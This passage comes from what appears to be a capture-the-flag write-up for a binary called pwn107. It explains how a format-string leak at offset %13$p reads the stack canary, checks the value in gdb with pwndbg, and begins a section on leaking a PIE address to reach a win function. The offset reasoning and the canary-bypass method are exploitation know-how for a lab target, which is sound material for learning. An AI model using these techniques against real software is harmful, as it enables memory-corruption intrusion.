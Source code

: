 The idea is to read the value of the *canary* that protects the stack from *BOF*.

```text
var int64_t canary @ rbp-0x8
var char * format @ rbp-0x40

0x40 - 0x8 = 56 bytes

56 / 8 = 7 qword

# x86-64 calling convention (6 registers)
6 + 7 qword = 13 qword

canary@ 13 qword

```

The correctness of the captured canary value is verified with *gdb*.

`gdb`

```text
$ gdb-pwndbg pwn107

pwndbg> set stop-on-solib-events 1
pwndbg> run

pwndbg> breakrva 0xa2a              # Breakpoint at the next statement below the printf
Breakpoint 1 at 0x555555400a2a

pwndbg> continue
pwndbg> continue

%13$p

pwndbg> canary
AT_RANDOM = 0x7fffffffe2c9 # points to (not masked) global canary value
Canary    = 0x8f9f50a185c68300 (may be incorrect on != glibc)
Thread 1: Found valid canaries.
00:0000│  0x7fffffffbb68 ◂— 0x8f9f50a185c68300

pwndbg> continue
Continuing.
0x8f9f50a185c68300

```

Works!

### Leak the virtual address

To exploit *BOF* it becomes necessary to know the *virtual address* of the *get_streak* function. In fact, remember that from [checksec](#checksec) the binary has **PIE** protection, so we do not know a priori at which memory address the program will be allocated, and consequently also its components.
